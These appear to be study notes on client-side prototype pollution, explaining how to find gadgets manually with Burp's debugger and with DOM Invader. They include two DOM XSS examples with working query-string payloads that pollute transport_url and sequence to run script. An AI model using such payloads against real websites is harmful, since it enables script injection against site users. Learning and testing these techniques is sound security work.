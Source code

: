 ```sh
DOM Invader comes preinstalled with Burp built-in browser. It autom. test prototype pollution sources as you browse.

############## Finding client-side prototype pollution gadgets manually
Identify source to add properties to the global Object.prototype -> (then) Find gadget to craft an exploit
# 1. Read source code and identify any properties that are used by the application or any libraries that it imports.
# 2. Proxy > Options > Intercept server responses and intercept the response containing the JavaScript you wanna test.
# 3. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
# 4. In Burp's browser, go to the page where target script is loaded. The debugger statement pauses script execution.
# 5. While the script is still paused, switch to the console and enter the following command, 
# replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
    Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
        get() {
            console.trace();
            return 'polluted';
        }
    })
Property is added to the global Object.prototype, and browser will log a stack trace to the console whenever it is accessed.
# 6. Press the button to continue execution of the script and monitor the console. If a stack trace appears, 
# this confirms that the property was accessed somewhere within the application.
# 7. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
# 8. Using the browser's debugger controls, step through each phase of execution to see 
# if the property is passed to a sink, such as innerHTML or eval().
# 9. Repeat this process for any properties that you think are potential gadgets.

################# Finding client-side prototype pollution gadgets using DOM Invader
 DOM Invader can automatically scan for gadgets on your behalf and can even generate a DOM XSS PoC in some cases.
Burp > Proxy > Intercept > Open browser > DOM extension > DOM Invader on > Prototype pollution on > Scan for gadgets

# EXAMPLE: DOM XSS VIA CLIENT-SIDE PROTOTYPE POLLUTION
- Try https://web.net/?__proto__[foo]=bar
- Console > Object.prototype.foo / we see value "bar" is there
- Debugger > read .js files to find
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
- Notice that no transport_url property is defined for the config object.
- Use the prototype pollution source /?__proto__[transport_url]=foo
- DevTools > Elements > read HTML > observe <script> element has been rendered on the page, with the src attribute foo
- We can embed XSS payload to that object property   
?__proto__[transport_url]=data:,alert();//

# EXAMPLE: DOM XSS via an alternative prototype pollution vector
vulnerable-website.com/?__proto__.foo=bar
# Check Debugger > .js files
let a = manager.sequence || 1;
    manager.sequence = a + 1;
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
# Try this
?__proto__.sequence=alert()
```
